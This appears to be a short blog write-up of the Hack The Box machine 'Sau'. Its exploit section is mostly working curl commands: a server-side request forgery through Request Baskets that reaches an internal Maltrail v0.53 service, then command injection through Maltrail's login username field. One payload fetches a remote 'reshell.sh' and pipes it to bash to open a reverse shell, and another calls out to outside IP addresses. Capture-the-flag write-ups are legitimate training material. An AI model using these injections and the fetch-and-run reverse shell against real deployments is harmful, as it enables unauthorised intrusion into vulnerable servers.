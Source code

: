 ```yaml
---
title: SAU Hack The Box 
date: 2023-06-25 22:50:30 +/-TTTT
categories: [Hack The Box, SAU]
tags: [SAU HTB] 

image:
  path: /assets/img/htb/sau/logo.png
  # alt: PC HTB
---
```



## Work Flow
![]( /assets/img/htb/sau/workflow.png)

## Enumeration
- Scan with nmap => 2 ports open: 22, 55555 and 1 port filtering 80
![]( /assets/img/htb/sau/nmap.png)
- Go to browser and connect to the target with port 55555 => search exploit *request baskets*

## Exploit
```shell
curl http://10.10.11.224:55555/api/baskets/test1 --data '{ 
  "forward_url": "http://127.0.0.1:80",         
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}'  -X POST

```
=> http://10.129.16.203:55555/t  ==> Maltrail v0.53 (vulnerable to unauthenticated OS command injection)

```shell
curl http://10.10.11.224:55555/api/baskets/test4 --data '{
  "url": "http://127.0.0.1:8338/login",          
  "username": ";`id > /tmp/bbq`",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}'  -X POST

```

```shell
curl 'http://10.10.11.224:55555/test1/login' --data 'username=;`curl 10.10.14.29:8899/reshell.sh|bash`'


curl 'http://34.124.197.100:8338/login' \  
--data 'username=;`curl 54.211.64.96:8080`'

```
![]( /assets/img/htb/sau/token.png)
 Get reshell 
![]( /assets/img/htb/sau/reshell.png)

## Privilege escalation
![]( /assets/img/htb/sau/sudo.png)
![]( /assets/img/htb/sau/service_root.png)
![]( /assets/img/htb/sau/get_root.png)
